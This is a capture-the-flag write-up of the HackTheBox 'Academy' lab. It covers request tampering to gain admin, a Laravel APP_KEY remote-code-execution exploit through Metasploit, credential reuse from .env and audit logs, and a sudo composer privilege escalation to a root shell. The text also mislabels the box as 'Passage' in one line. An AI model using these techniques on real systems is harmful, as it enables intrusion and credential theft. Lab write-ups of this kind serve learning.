 ```yaml
---
layout: post
title: [Academy - Linux]
subtitle: HackTheBox
thumbnail-img: /assets/img/academy.jpg
tags: [red]
---
```


This is my solution to the HackTheBox Passage Linux box, my second HTB writeup and my first root own!

# Academy - Linux - 10.10.10.215

# Enumeration:

As usual, we start out with nmap on the ip.

```
nmap -sC -sV -Pn 10.10.10.215
```

Results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-11 22:46 EST
Nmap scan report for 10.10.10.215
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

From here, we see that there is an http port open with a redirect to http://academy.htb. We then open our hosts file by doing `sudo vim /etc/hosts`. There, we add the host `10.10.10.215 academy.htb`

Next, we access http://academy.htb, and find a login page. We try registering an account and logging in to see what the website gives. There is quite a bit of useless information, and I was unable to find any services that could be exploited. We then move to the `/admin.php` page to see if we can login as admin.

To do so, we use burpsuite, finding the original post request that we used to login to `register.php`, sending it to the repeater, modifying the username, password, confirm, and most importantly the roleid to 1, and then logging in with our set credentials into the `/admin.php` page.

## Breaking In:

Here, we see the following information:


![admin login page](./assets/img/admin_page_academy.png)


Let's check out http://dev-staging-01.academy.htb. Again we add this host to `/etc/hosts`, and we open the site. It gives us some good information:

```
APP_NAME 	"Laravel"

APP_ENV 	"local"

APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	"true"

APP_URL 	"http://localhost"

SERVER_ADMIN 	"admin@htb"

DB_CONNECTION 	"mysql"

DB_HOST 	"127.0.0.1"

DB_PORT 	"3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```



We look up "lavarel" exploits on metasploit, and we find one for remote code execution. Running this with a listener system, with academy.htb as the target host, and with the given APP_KEY, we get a shell.

Opening up Kali, we first connect to the VPN then run the following commands:

```
msfconsole
search laravel
set RHOSTS academy.htb
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set lhost tun0
set vhot dev-staging-01.academy.htb
run
```

Here, we get a webshell. We use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a reverse shell.

After poking around for a bit, we find the `/var/www/html/academy/.env`, with the `ls -al` command which has credentials:

```
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We also find in the `/home' directory a list of possible users:

```
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

We `su cry0l1t3` with cry0l1t3:mySup3rP4s5w0rd!!. 

## Winning:

Enter the home directory and `cat user.txt`

# Root: 

We can now ssh into cry0l1t3.

In cry0l1t3's `/var` directory, we enter `/var/log/audit`. Here, we want to search for root logins with the command:

```
cat * | grep 'comm="su"'
```

Results:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

We need to crack this data. Turns out it is unencrypted hex. When converted, we get:

```
mrb3n_Ac@d3my!
```

Looks like creds to me :). We try mrb3n:mrb3n_Ac@d3my!, which works!

We now execute `sudo -l` with mrb3n's password and get the following:

```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

````

We then use https://gtfobins.github.io/gtfobins/composer/ to get:

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running these commands breaks out of the restricted environment, giving access to a root shell. 

Navigating to the root directory, we are able to `cat root.txt` and own root!
